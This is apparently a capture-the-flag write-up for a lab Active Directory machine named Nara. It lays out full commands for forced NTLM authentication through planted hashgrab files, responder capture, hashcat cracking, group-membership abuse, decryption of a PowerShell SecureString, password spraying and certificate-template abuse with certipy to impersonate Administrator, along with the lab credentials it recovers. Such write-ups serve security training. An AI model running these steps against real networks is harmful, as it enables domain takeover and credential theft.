 #Pwned! 
```IP
192.168.249.30
```
# Enumeration
## SMB
```
nxc smb 192.168.249.30 -u 'guest' -p '' --shares
```
we can access and write some directories
```
smbclient //192.168.249.30/nara -U nara-security.com\guest
```
we find important.txt. We can deduct that some kind of phishing attack may work. I first tried with .exe or .odt to no avail.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163917.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163939.png?raw=true)
## Kerberos
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163540.png?raw=true)
got some users
```
nara
administrator
guest
```
## HTTP

# Exploitation
with hashgrab.py we can force authentication to our machine if a user clicks on any of our generated files
https://github.com/xct/hashgrab
```
python hashgrab/hashgrab.py 192.168.45.189 hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212170454.png?raw=true)
we upload it to smb Documents and we get the hash with
```
sudo responder -I tun0
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212170708.png?raw=true)
We can crack it with hashcat
```
hashcat -m 5600 files/tracy.hash /usr/share/wordlists/rockyou.txt --force
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212171126.png?raw=true)
with nxc we can see some hits on rdp and ldap but it doesn't say pwned...
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212172000.png?raw=true)
we can't access but we can run bloodhound
```
bloodhound-python -d nara-security.com -c all -u tracy.white -p 'zqwj041FGX' -ns 192.168.249.30 --zip
```
We find out that we have generic all over remote access
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212175735.png?raw=true)
So we execute the following command in order to add tracy.white to group "remote access":
```
net rpc group addmem "Remote Access" "tracy.white" -U "nara-security.com"/"tracy.white"%"zqwj041FGX" -S "nara-security.com"
```
```
evil-winrm -i 192.168.249.30 -u tracy.white -p 'zqwj041FGX'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212175643.png?raw=true)

# PrivEsc

## Manual

right in the documents directory we can find the following file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212180025.png?raw=true)
seems like a hash.
Let's think as a user. the user encrypted here something, likely a password. Something he could have googled is "How to encrypt a password in windows powershell?"
If we google exactly that we get some answers as
https://medium.com/@josephjhinshaw/powershell-encryption-38a044db3942
Which have some powershell commands as `ConvertTo-SecureString`.
So the question we should google would be "How to decrypt powershell secure string?"
StackOverflow will give us the answer:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212182706.png?raw=true)
https://stackoverflow.com/questions/7468389/powershell-decode-system-security-securestring-to-readable-password
We asume then that this is a standart ciphered string obtained with the convertfrom-securestring cmdlet. Following the commands below we can decrypt this encrypted string:
```
$credentials = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b'
```
```
$secure = convertTo-securestring -string $credentials
```
```
$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($secure)
```
```
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
```
```
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
```
```
$result
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213091156.png?raw=true)
We obtain the following string:
```
hHO_S9gff7ehXw
```
We will spray the password now. But first we need a complete user list. I've done this by bruteforcing the RIDs with nxc
```
nxc smb 192.168.132.30 -u 'tracy.white' -p 'zqwj041FGX' --rid-brute 3000 > users2.txt
```
After some data cleaning, we have our clean user list and we can use it to spray the password effectively
```
nxc winrm 192.168.132.30 -u users2.txt -p 'hHO_S9gff7ehXw'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213092921.png?raw=true)
We have pwned Jodie.Summers.
```
evil-winrm -i 192.168.132.30 -u jodie.summers -p 'hHO_S9gff7ehXw'
```
After some enumeration, we observe that jodie.summers belongs to Enrollment group:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131507.png?raw=true)
In the nmap scan we can see that this machine is also a Certificate Authority (CA).
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131213.png?raw=true)
We can check for CA related vulnerabilities with certipy-ad tool as shown below:
```
certipy-ad find -vulnerable -stdout -u Jodie.Summers@192.168.132.30 -p 'hHO_S9gff7ehXw'
```
In the official github webpage we can find how to leverage these attacks:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131321.png?raw=true)
The tool indicates that Enrollment group has dangerous permissions
```
certipy-ad req -username Jodie.Summers@192.168.132.30 -password hHO_S9gff7ehXw -ca NARA-CA -target nara-security.com -template NaraUser -upn Administrator@nara-security.com
```

## Automated

### Peass
### Mimikatz

# Lateral Movement

